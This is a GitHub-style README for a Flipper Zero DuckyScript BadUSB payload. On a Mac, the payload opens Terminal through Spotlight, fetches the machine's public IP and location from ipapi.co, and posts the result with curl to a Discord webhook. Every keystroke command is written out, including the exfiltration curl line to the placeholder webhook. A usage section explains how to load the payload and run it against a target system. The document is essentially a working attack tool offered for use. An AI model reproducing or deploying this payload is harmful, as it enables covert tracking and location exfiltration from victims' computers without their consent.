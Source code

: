 
# 📍 IPLogger-FlipZero by bst04

## ℹ️ Description

This script, created by bst04, is designed to work on macOS systems. It opens Terminal, fetches the public IP address of the device, and sends it to a Discord webhook using `curl`.

---

## 📖 Technical Explanation

1. **Initialization**:
    - `DELAY 500`: Waits for 0.5 seconds to ensure the system is ready.
    - `GUI SPACE`: Simulates pressing the "Command" + "Space" keys to open Spotlight Search.
    - `DELAY 500`: Waits for 0.5 seconds for Spotlight to open.
    - `STRING Terminal`: Types "Terminal" to search for the Terminal application.
    - `ENTER`: Opens the Terminal application.

2. **Fetch Public IP Address**:
    - `DELAY 1000`: Waits for 1 second to ensure Terminal is fully opened.
    - `STRING location=$(curl -s https://ipapi.co/json/)`: Fetches the public IP address and stores it in a variable named `location`.

3. **Send IP Address to Discord Webhook**:
    - `DELAY 1000`: Waits for 1 second to ensure the previous command is executed.
    - `STRING curl -X POST -H "Content-Type: application/x-www-form-urlencoded" --data-urlencode "content=$location" https://yourwebhook`: Sends the IP address to the specified Discord webhook.

4. **Completion**:
    - `DELAY 30000`: Waits for 30 seconds before concluding the script.

---

## 📜 Usage

1. Copy the payload script to your DuckyScript-enabled device.
2. Ensure the device is connected to a macOS system.
3. Execute the payload to fetch and send the public IP address to your Discord webhook.

---


